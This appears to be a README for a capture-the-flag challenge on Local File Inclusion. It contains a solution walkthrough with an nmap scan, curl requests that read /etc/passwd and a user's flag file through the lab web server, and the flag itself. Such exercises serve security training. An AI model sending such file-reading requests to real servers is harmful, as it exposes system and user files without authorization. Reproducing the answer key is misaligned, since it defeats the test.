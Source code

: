 # Challenge template

Simple challenge for Local File Inclusion

### Task

Find an HTTP server at IP address `172.20.0.10` and try to exploit naivity of the programmer to find a flag

## How to solve
<details>
  <summary>Click to reveal how to solve steps</summary>


1. Use `nmap` to find opened ports:
```bash
root@hackerlab:~# nmap -sS -n -v 172.20.0.10
...
PORT     STATE SERVICE
8080/tcp open  http-proxy
MAC Address: 02:42:AC:14:00:0A (Unknown)
...
```

2. Discover opened port 8080 and try to manipulate with the server functionality. Eventually you might discover LFI vuilnerability and discover a user named bob in the `/etc/passwd` file. And finally, bob has a flag in his home directory:
```bash
root@hackerlab:~# curl 172.20.0.10:8080
Please specify a quote file to read in the URL path. Options are: ['asimov.txt', 'einstein.txt', 'jobs.txt']

root@hackerlab:~# curl 172.20.0.10:8080/asimov.txt
The true delight is in the finding out rather than in the knowing.

root@hackerlab:~# curl 172.20.0.10:8080/etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
_apt:x:42:65534::/nonexistent:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
bob:x:1000:1000::/home/bob:/bin/bash

root@hackerlab:~# curl 172.20.0.10:8080/home/bob/flag.txt
bsy{YouMaySayIamADreamerButIamNotTheOnlyOne}
```


</details>

## Testing

The script [auto-solve.sh](./auto-solve.sh) automatically verifies that the challenge can be solved.
